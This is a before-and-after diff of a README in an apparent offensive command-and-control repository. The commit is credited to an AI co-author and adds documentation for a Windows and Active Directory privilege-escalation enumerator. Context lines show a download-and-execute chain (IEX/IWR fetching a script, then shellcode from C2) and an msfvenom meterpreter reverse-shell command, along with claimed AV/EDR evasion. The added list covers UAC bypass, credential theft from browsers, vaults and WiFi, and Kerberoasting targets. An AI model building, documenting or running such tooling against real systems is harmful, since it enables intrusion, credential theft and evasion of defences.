

Before and after one commit to neuralxploit/cyber_c2, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Document CyberEnum.ps1 recon/privesc enumerator in README
Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

```diff
--- a/README.md
+++ b/README.md
@@ -51,6 +51,19 @@ The `i5_syscall.ps1` scripts provide **ntdll-level syscall injection** for loadi
 - Same injection works with any msfvenom shellcode (`msfvenom -p windows/x64/meterpreter/reverse_https ... -f raw | base64`)
 
 **Flow:** `IEX(IWR .../i5_syscall.ps1)` → downloads `shellcode.txt` from C2 → injects at ntdll level → meterpreter/agent callback
+
+### Reconnaissance & Privilege Escalation
+- **`CyberEnum.ps1`** - Comprehensive Windows + AD privesc enumerator (PowerShell v3+):
+  - System info, user context, dangerous privileges (SeImpersonate, SeDebug, etc.)
+  - UAC bypass methods (registry hijack, scheduled task, DLL hijacking)
+  - Security software detection (Defender, AMSI, AppLocker, WDAC, third-party AV/EDR)
+  - Credential hunting (cmdkey, Windows Vault, browser saved passwords, WiFi keys, unattend.xml, registry autologon)
+  - Network recon (adapters, listening ports, ARP cache for lateral targets)
+  - Service misconfigs (unquoted paths, writable binaries, SYSTEM services)
+  - Active Directory enumeration (domain controllers, domain admins, Kerberoastable SPNs)
+  - WSL exploitation vectors
+  - HTML report export (`-ExportHTML`) and quick mode (`-Quick`)
+- **`privesc_enum.ps1`** - Lightweight privesc checker
 
 ### Evasion & Delivery
 - **NT syscall-direct injection** - Calls ntdll directly, bypasses all userland hooks (AV, EDR, ETW, AMSI)
```
